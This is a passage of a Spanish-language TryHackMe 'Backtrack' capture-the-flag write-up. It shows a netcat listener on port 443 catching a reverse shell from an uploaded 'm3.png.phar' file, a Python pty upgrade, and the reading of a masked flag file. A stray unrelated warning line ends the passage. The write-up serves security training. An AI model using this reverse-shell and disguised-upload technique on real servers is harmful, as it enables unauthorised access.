 A continuación, nos ponemos en escucha por el puerto 443 y ejecutamos una reverse shell con nuestro fichero *m3.png.phar*:
![](../assets/img/backtrack-tryhackme-writeup/13.png)

Logramos acceder al servidor con el usuario *Orville* y leemos el fichero *flag2.txt*:
```


> sudo rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.9.41.86] from (UNKNOWN) [10.10.104.198] 60158
id
uid=1003(orville) gid=1003(orville) groups=1003(orville)
python3 -c "import pty; pty.spawn('/bin/bash')"
ls
ls
orville@Backtrack:/var/www/html$ ls
css            includes   login.php   m3.png.phar  register.php
dashboard.php  index.php  logout.php  navbar.php   uploads
orville@Backtrack:/var/www/html$ ls -lna /home/orville
ls -lna /home/orville
total 56
drwxrwx--- 2 1003 1003  4096 Oct 13 15:46 .
drwxr-xr-x 4    0    0  4096 Mar  9  2024 ..
lrwxrwxrwx 1    0    0     9 Mar  9  2024 .bash_history -> /dev/null
-rw-r--r-- 1 1003 1003  3771 Mar  9  2024 .bashrc
lrwxrwxrwx 1    0    0     9 Mar  9  2024 .mysql_history -> /dev/null
-rw-r--r-- 1 1003 1003   807 Mar  9  2024 .profile
-rw------- 1 1003 1003    38 Mar  9  2024 flag2.txt
-rwx------ 1 1003 1003 34641 Oct 13 15:46 web_snapshot.zip
orville@Backtrack:/var/www/html$ cat /home/orville/flag2.txt
cat /home/orville/flag2.txt
THM{**************************}
orville@Backtrack:/var/www/html$ 
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that